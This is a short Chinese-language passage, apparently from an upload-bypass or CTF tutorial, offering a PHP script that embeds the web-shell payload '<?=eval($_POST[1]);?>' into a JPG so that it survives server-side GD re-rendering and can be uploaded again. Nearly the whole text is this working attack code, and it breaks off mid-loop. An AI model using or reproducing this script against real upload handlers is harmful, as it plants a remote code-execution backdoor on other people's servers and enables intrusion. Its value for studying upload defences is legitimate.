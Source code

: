 此处驻留甚久，告之后来者
:::

把网站渲染过一次的图片保存下来，使用下面脚本再次渲染

jpg二次渲染脚本

```php
<?php
    /*
将有效载荷注入JPG图像的算法，该算法在PHP函数imagecopyresized()和imagecopyresampled()引起的变换后保持不变。
初始图像的大小和质量必须与处理后的图像的大小和质量相同。
1)通过安全文件上传脚本上传任意图像
2)保存处理后的图像并启动:
php 文件名.php <文件名.jpg >
如果注射成功，您将获得一个特制的图像，该图像应再次上传。
由于使用了最直接的注射方法，可能会出现以下问题:
1)在第二次处理之后，注入的数据可能变得部分损坏。
jpg _ payload.php脚本输出“有问题”。
如果发生这种情况，请尝试更改有效载荷(例如，在开头添加一些符号)或尝试另一个初始图像。
谢尔盖·博布罗夫@Black2Fan。
另请参见:
https://www . idontplaydarts . com/2012/06/encoding-we B- shell-in-png-idat-chunks/
*/

    $miniPayload = '<?=eval($_POST[1]);?>';
 
 
    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }
    
    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }
 
    set_error_handler("custom_error_handler");
 
    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;
 
        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }
 
        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
```